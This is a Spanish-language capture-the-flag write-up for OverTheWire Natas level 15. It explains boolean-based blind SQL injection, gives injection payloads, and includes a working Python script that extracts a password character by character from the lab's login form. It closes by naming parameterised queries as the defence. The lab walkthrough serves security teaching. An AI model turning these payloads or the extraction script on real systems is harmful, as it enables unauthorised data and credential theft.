 # Natas 15 – OverTheWire

La página muestra un formulario con un campo para buscar un usuario, si el usuario existe, la respuesta es: `This user exists.` y si no existe: `This user doesn't exist.`

No se muestran errores ni resultados de la base de datos — solo un mensaje booleano (sí/no).

## Analisis

Este tipo de comportamiento sugiere que el backend ejecuta algo como:

```php
$query = "SELECT * FROM users WHERE username='" . $_GET['username'] . "'";
```

Y luego:

```php
if (mysql_num_rows($result) > 0)
    echo "This user exists.";
else
    echo "This user doesn't exist.";
```

Aquí no vemos la contraseña directamente, pero podemos inyectar condiciones en el parámetro `username` y deducir la contraseña carácter por carácter a través del mensaje de respuesta.

### Concepto: Blind SQL Injection

En una **SQLi normal**, ves datos o errores.
En una **SQLi ciega**, solo tienes una respuesta “verdadero o falso”.
Por tanto, el ataque se basa en preguntas como:

>“¿El primer carácter de la contraseña es una `a`?”

Si la respuesta es “User exists”, la condición fue verdadera.
Si es “User doesn’t exist”, fue falsa.

Repetimos eso letra por letra.

Teniendo esto en cuenta lo primero que vamos a hacer es comprobar que la página es vulnerable a SQLi con una condicion que siempre sea verdadera.

```url
natas16' OR '1'='1
```

Si el mensaje cambia a “This user exists.”, sabemos que hay inyección SQL. Sabemos que las contraseñas están guardadas en `/etc/natas_webpass/`. En este caso, la base de datos probablemente contiene una tabla users con una columna password.

Probamos algo como:

```url
natas16" AND password LIKE BINARY "a%" --
```

Si la respuesta es “This user exists.” → significa que la contraseña empieza por `a`.

Como es tedioso hacerlo a mano, podemos automatizarlo con un script en Python.

Por ejemplo:

```python
import requests
from string import ascii_letters, digits

chars = ascii_letters + digits
url = "http://natas15.natas.labs.overthewire.org"
auth = ('natas15', '<contraseñaNatas15>')
found = ""

while True:
    for c in chars:
        payload = f'natas16" AND password LIKE BINARY "{found + c}%" -- '
        r = requests.get(url, auth=auth, params={"username": payload})
        if "This user exists" in r.text:
            found += c
            print(f"[+] Encontrada: {found}")
            break
    else:
        break
print("Contraseña:", found)
```

Después de unas iteraciones, el script encuentra la contraseña de Natas 16:

![Contraseña](Assets/Natas15/Contraseña.png)

### Concepto: SQL Injection ciega

La **Blind SQLi** se basa en inferir información a partir del comportamiento de la aplicación.

Existen dos variantes:

- **Boolean-based:** el resultado depende de una condición verdadera/falsa.
- **Time-based:** se usan funciones como `SLEEP(5)` para distinguir respuestas por tiempo.

## Conclusion

- A veces no se necesita ver los datos para extraerlos: basta con observar las respuestas del servidor.

- Las aplicaciones que devuelven mensajes distintos (aunque parezcan inocentes) pueden filtrar información sensible.

- Los **prepared statements** y las consultas parametrizadas son la única defensa real.
